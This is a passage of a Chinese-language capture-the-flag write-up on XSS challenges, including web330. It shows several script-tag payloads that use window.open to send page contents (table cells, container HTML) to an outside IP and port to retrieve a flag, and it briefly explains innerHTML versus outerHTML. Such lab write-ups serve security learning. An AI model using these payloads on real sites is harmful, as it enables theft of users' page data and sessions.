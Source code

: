 可以看到元素名

```js
<script>window.open('http://1.15.107.150:3296/'+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>
```

![image-20221219164818200](XSS.assets/image-20221219164818200.png)

还有**innerHTML**和**outerHTML**的区别
**innerHTML**: 从对象的起始位置到终止位置的全部内容,不包括Html标签。
**outerHTML**: 除了包含innerHTML的全部内容外, 还包含对象标签本身。

### web330

利用上题的**payload**拿到的是 `******`

![image-20221219165148892](XSS.assets/image-20221219165148892.png)

用的这个**payload**

```js
<script>window.open('http://1.15.107.150:3296/'+document.querySelector('#top > div.layui-container').textContent)</script>
```

or

```js
<script>window.open('http://1.15.107.150:3296/'+document.getElementsByClassName('layui-container')[0].outerHTML)</script>
```

上题的payload只是因为`******`的位置靠前了而没有flag，直接再找父级就好了

![image-20221219170440681](XSS.assets/image-20221219170440681.png)

